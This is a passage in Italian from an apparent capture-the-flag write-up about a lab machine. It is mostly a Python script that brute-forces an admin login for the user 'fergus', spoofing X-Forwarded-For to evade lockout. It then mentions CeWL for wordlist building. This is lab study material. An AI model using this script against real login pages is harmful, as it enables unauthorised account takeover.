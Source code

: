Vediamo che la PoC è fatta in modo da dimostrare il concetto, non impostato per l'exploit.
bisogna modificarlo.

```python
#!/usr/bin/env python3
import re
import requests
import sys

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

with open(sys.argv[1], 'r') as f:
    wordlist = [x.strip() for x in f.readlines()]

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print('\rSUCCESS: Password found!' + 50*" ")
            print(f'Use {username}:{password} to login.')
            print()
            break

```

ok abbiamo un username, ma ci manca un lista di password, andiamo a creala utilizando [Cewl](../Cewl.md)
che non fa altro che creare una serie di parole utilizzando il contenuto del sito, infatti non è raro che le passowrd utilizzate siano delle parole prese proprio dal sito su cui sono utilizzate.
